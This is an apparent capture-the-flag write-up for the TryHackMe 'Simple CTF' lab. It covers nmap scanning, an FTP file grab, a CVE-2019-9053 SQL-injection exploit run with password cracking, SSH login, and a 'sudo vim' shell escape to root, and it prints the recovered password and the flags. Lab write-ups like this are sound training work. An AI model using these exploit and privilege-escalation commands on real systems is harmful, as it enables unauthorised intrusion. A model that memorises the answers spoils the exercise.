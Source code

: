 # Simple CTF

```
export ip=10.10.208.204
```

# 1. How many services are running under port 1000?

```
run nmap scan on machine using -sC -sV 
```

```nmap -sC -sV -oN nmap/initial 10.10.208.204
```

```
answer: 2
```

# 2. What is running on the higher port?

```
we will use -p 0-9999 to specify scan ports from 0 to 9999 in nmap
```

```nmap -p 0-9999 -oN nmap/all_ports 10.10.208.204
```

```
answer: ssh
```
	
```
I ftp into 10.10.208.204 and found ForMitch.txt and grabbed it to my host using get
```	

# 3. What's the CVE you're using against the application? 

```
searched for exploits against the web servers host template version (2.2.8) and found CVE-2019-9053
```

```
answer: CVE-2019-9053
```

# 4. To what kind of vulnerability is the application vulnerable?

```
the exploit was a SQL Injection and since tryhackme states the answer is 4 letters it should be SQLi
```

```
answer: SQLi
```

# 5. What's the password?

```
we run the python exploit and specify the rhosts and using --crack we will attempt to crack the password using a wordlist in this case best110.txt
```

```python3 exploit.py -u http://10.10.208.204/simple --crack -w /thm/best110.txt 
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

```
answer: secret
```

# 6. Where can you login with the details obtained?

```
answer: ssh
```

# 7. What's the user flag?

```
we can run find / -name user* 2>/dev/null to search the computer for the flag if its not located in the home directory otherwise we can cat the file when found. cat /home/mitch/user.txt
```

```
Answer:"G00d j0b, keep up!"
```

# 8. Is there any other user in the home directory? What's its name?

```
if we cd ../ to go back to the parent directory we can see a user folder of someone named "sunbath"
```

```
Answer: sunbath
```

# 9. What can you leverage to spawn a privileged shell?

```
the first thing i do when im attempting to privesc is running sudo -l to see what im able to run as root. in this case we can run /usr/bin/vim as sudo without needing a password. using gtfobins we can see that using vim we can spawn a shell however because this box doesnt need a password for sudo vim we can spawn and leverage this vulnerability.
```

```
Answer: vim
```

# 10. What's the root flag?

```
running sudo vim -c ':!/bin/sh' will now give us root privilidges on the system due to the user "mitch" being able to run vim as sudo without a password. root flags are usually stored in /root however if not we can always use find to search for the file. In this cate the flag is stored in /root/root.txt so lets cat the file and finish the box!
```

```
Answer: W3ll d0n3. You made it!
```

```json
Congrats u have completed Simple CTF!
```